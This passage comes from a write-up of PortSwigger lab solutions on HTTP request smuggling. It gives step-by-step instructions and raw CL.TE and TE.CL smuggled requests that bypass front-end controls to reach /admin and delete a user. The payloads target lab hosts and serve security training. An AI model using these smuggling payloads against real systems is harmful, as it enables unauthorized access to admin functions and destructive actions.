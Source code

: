 ```
```
7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete the user ``carlos``:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

## Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl

if not CL.TE...


### Quick Solution
This lab is divided in two parts. In the first part the goal is to access the ``/admin`` page, in the second part the goal is to delete a user. So two different requests must be sent. Payloads in the next paragraph.


### Solution
1. Try to visit ``/admin`` and observe that the request is blocked.
2. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
3. Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
4. Observe that the merged request to ``/admin`` was rejected due to not using the header ``Host: localhost``.
5. Issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
```